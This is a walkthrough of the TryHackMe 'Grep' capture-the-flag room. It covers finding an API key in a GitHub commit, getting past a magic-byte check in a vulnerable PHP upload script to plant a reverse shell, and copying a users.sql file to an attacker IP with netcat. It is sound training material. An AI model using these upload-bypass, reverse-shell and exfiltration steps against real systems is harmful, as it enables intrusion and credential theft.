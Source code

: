 # Grep CTF Walkthrough
<br/>

## Intro
Welcome into the Grep challenge, here is the link of the [room](https://tryhackme.com/room/greprtp) on TryHackMe.

Here is the story-context:
"In this task, you will be an ethical hacker aiming to exploit a newly developed web application.

SuperSecure Corp, a fast-paced startup, is currently creating a blogging platform inviting security professionals to assess its security. The challenge involves using OSINT techniques to gather information from publicly accessible sources and exploit potential vulnerabilities in the web application.

Your goal is to identify and exploit vulnerabilities in the application using a combination of recon and OSINT skills. As you progress, you’ll look for weak points in the app, find sensitive data, and attempt to gain unauthorized access. You will leverage the skills and knowledge acquired through the Red Team Pathway to devise and execute your attack strategies."

Whenever you feel ready press on "Start Machine" and connect via OpenVPN from your machine or use the AttackBox.

Let's Begin !

<br/>
<br/>

## The Challenge
Let's begin by adding the domain to the hosts file
```bash
echo "10.10.228.221  grep.thm" | sudo tee -a /etc/hosts
```

Do a port scan :
```bash
rustscan -a grep.thm  --ulimit 5000 -- -sV
```

It detects 4 open ports:
```
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
443/tcp   open  ssl/http syn-ack ttl 63 Apache httpd 2.4.41
51337/tcp open  http     syn-ack ttl 63 Apache httpd 2.4.41
```

Let's take a look at the website at `https://grep.thm/`.
We can see there is a register page, if we  try to register a new user we get error "Invalid API Key".

Since the website is under development and this is an OSINT challenge let's search if they created a page on GitHub.
We can find a repository called "supersecuredeveloper/searchmecms" which contains a directory with the `register.php` file, looking at the commit history we land `https://github.com/supersecuredeveloper/searchmecms/commit/db11421db2324ed0991c36493a725bf7db9bdcf6` and find out that on the first commit someone exposed the API key.
--> REDACTED

Looking at the code we can also see that we will need to pass the key with the `X-THM-API-Key` header.

Now that we have it we can interact with the register page.
Send the register request, capture it with Burp Suite Proxy and add the API key then forward it.

The registration this time is successful and we can use the credentials to login.
On the dashboard we find the first flag:
--> REDACTED

In the repo we have also seen that there is an `upload.php` where guess what, we can upload a file.
Here is the code:
```php
<?php
session_start();
require 'config.php';
$uploadPath = 'uploads/';

function checkMagicBytes($fileTmpPath, $validMagicBytes) {
    $fileMagicBytes = file_get_contents($fileTmpPath, false, null, 0, 4);
    return in_array(bin2hex($fileMagicBytes), $validMagicBytes);
}

$allowedExtensions = ['jpg', 'jpeg', 'png', 'bmp'];
$validMagicBytes = [
    'jpg' => 'ffd8ffe0', 
    'png' => '89504e47', 
    'bmp' => '424d'
];

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_SESSION['username'])) {
        if (isset($_FILES['file'])) {
            $file = $_FILES['file'];
            $fileName = $file['name'];
            $fileTmpPath = $file['tmp_name'];
            $fileExtension = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));

            if (checkMagicBytes($fileTmpPath, $validMagicBytes)) {
                $uploadDestination = $uploadPath . $fileName;
                move_uploaded_file($fileTmpPath, $uploadDestination);

                echo json_encode(['message' => 'File uploaded successfully.']);
            } else {
                echo json_encode(['error' => 'Invalid file type. Only JPG, JPEG, PNG, and BMP files are allowed.']);
            }
        } else {
            echo json_encode(['error' => 'No file uploaded.']);
        }
    } else {
        echo json_encode(['error' => 'User not logged in.']);
    }
} else {
    echo json_encode(['error' => 'Unsupported request method.']);
}
?>
```

We can see that the uploaded files will be saved to `/api/uploads`.
Also there is a very simple filtering, basically it checks for the magic number of the file/extension to ensure that you could not send a malicious file disguised as an image... 

This in theory, practically we can just include the magic number editing the hex of the file and then paste inside a reverse shell.
Should word, let's set this up, choose a reverse shell payload, i went for the PentestMonkey PHP reverse shell.
1. Save it in a file called `shell.php`.
2. Adding the magic number will overwrite some bytes so open the file with a text editor ad prepend something useless like `1234`
3. Now let's add the magic bytes `ffd8ffe0`: 
```bash
hexedit shell.php
```

At this point we upload the file and get the message `{"message":"File uploaded successfully."}`.

Prepare a listener on your machine to receive the connection:
```bash
nc -lvnp 1234
```

Now visit `https://grep.thm/api/uploads/` and click on the shell file, this will trigger the reverse shell.

We now have a shell as the user "www-data".
We can upgrade our shell (i made a guide [here]() on how to do it)

<br/>

### Privilege Escalation
Let's now navigate to the directory where we usually find the website content:
```bash
cd /var/wwww/
ls -la
```

We can see a Backup directory which is also interesting because was created by the user "ubuntu", probably our next target.
Inside there is a file called `users.sql`, let's transfer it to our machine:

```bash
nc -lvnp 4444 > users.sql
```

On target:
```bash
nc -nv 10.11.136.136 4444 < users.sql
```

Now we view the content:
```bash
strings users.sql
```

There is a set of credentials:
```
(1, 'test', '$2y$10$dE6VAd....', 'test@grep.thm', 'Test User', 'user'),
(2, 'admin', '$2y$10$3V62f66VxzdTz......REDACTED', 'a......REDACTED'
```

This also contains the answer to the admin email question:
--> REDACTED

And this shows a new subdomain, add it to our hosts file `searchme2023cms.grep.thm` just in case.

Trying to crack the password was tempting but probably not our path in this OSINT challenge, let's wait a moment.

In the `/var/www` there was also a directory we had no access to about a leak-checker website, the directory name is `leakcheker`, we can suppose that is probably on a sudbomai, try to add `leakchecker.grep.thm` to the hosts file.
Probably is hosted on the last port (`51337`) we have discovered at the beginning.

Let's try to visit it with the new domain `http://leakchecker.grep.thm:51337`

It works we are now on the leak checker website and can submit an email for the search, of course we do it for the admin one.
This shows us the password:
--> REDACTED

And this challenge actually ends here.

<br/>
<br/>

## Conclusion
Congratulations you have successfully practiced with some OSINT, exploited a web API via file upload to gain initial access and finally dumped an SQL database containing some credentials.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
